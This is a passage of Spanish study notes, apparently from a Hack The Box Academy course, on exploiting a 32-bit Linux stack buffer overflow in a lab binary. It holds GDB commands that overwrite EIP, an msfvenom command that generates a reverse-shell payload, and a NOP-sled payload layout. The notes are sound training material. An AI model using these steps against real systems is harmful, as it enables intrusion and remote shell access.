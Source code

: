 ```bash
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
``` 

![]https://academy.hackthebox.com/storage/modules/31/buffer_overflow_4.png)
- Ahora sabemos que el offset es de cierta cantidad de bytes, lo siguiente sería insertar un shellcode en el EIP/RIP.
# Determinar la Longitud del Shellcode

## Generación del Shellcode
Usamos Metasploit para generar un shellcode. Por ejemplo:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=31337 --platform linux --arch x86 --format c
```

Este shellcode suele pesar 68 bytes.

## Uso de NOPs
Se emplea la instrucción NOP (`\x90`) para crear un "sled" que garantice la ejecución correcta del shellcode.
La idea es llenar todo el buffer hasta alcanzar la dirección de retorno (EIP/RIP).

### Ejemplo de Payload en GDB
Ejecutamos el programa vulnerable con un payload formado por:
- Un relleno inicial (por ejemplo, con `\x55` para marcar la parte sobrescrita).
- Una zona de NOPs.
- El shellcode.
- Un sobrescrito final (por ejemplo, 4 bytes específicos para identificar el EIP).

```bash
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
```

## Imágenes de Apoyo
![Imagen 1](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_8.png)
![Imagen 2](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_7.png)

---

# Bad Characters (Caracteres Prohibidos)

